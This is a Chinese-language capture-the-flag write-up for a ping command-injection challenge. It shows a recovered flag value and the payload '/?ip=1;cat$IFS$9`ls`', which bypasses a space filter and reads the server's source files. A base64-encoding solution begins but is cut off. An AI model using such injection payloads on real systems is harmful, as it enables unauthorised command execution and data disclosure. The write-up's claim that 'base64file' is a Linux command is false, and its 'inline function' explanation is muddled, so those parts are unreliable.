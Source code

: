 什么都没有显示，F12看看源代码，在里面找到了。

<div align=center><img src="../images/2024/07/29/ping_bug2/Ping7.png" alt="Ping7" border="0" width="90%" height="60%"></div>

我估计是因为flag.php里面的代码就是下面这样。
```
<!--?php
$flag = "flag{96a64cad-c9b8-43c9-b286-d161b157ad06}";
?--> 
```
代码已经用html的注释标签注释了，所以输入出来直接不显示。

#### 解法2：内联执行

内联函数：将指定的函数体插入并取代每一处调用该函数的地方。

反引号在linux中作为内联执行，执行输出结果。也就是说

cat `` `ls`  `` 执行ls输出 index.php 和 flag.php 。然后再执行 cat flag.php;cat index.php

构造payload: ``` /?ip=1;cat$IFS$9`ls` ```传入，F12查看源代码

<div align=center><img src="../images/2024/07/29/ping_bug2/Ping8.png" alt="Ping8" border="0" width="100%" height="60%"></div>

可以这里的body页面，不仅输出了flag.php，还输出了index.php

#### 解法3：sh命令来执行（用base64绕过）

这个有点类似我们之前讲的**PHP伪协议1**中的base64绕过原理，就是把源代码先base64使其代码执行失效，并把它打印到页面出来，我们再对加密后的源代码进行base64解密，就可以看到源代码是什么了。

这里我又要补充一下linux进行base64加密解密的代码了.

linux的base64加密命令：
   - `` cat file | base64 `` :从文件中读取并编码为base64字符串
   - ` base64file file.txt ` : 同上，也是从文件中读取并编码为base64字符串（base64file是一起的，不能分开）
   - ` echo "Hello World" | base64 ` :将字符串编码为base64字符串
   - ` echo -n "Hello World" | base64 `: 将字符串编码为base64字符串（不添加换行符）

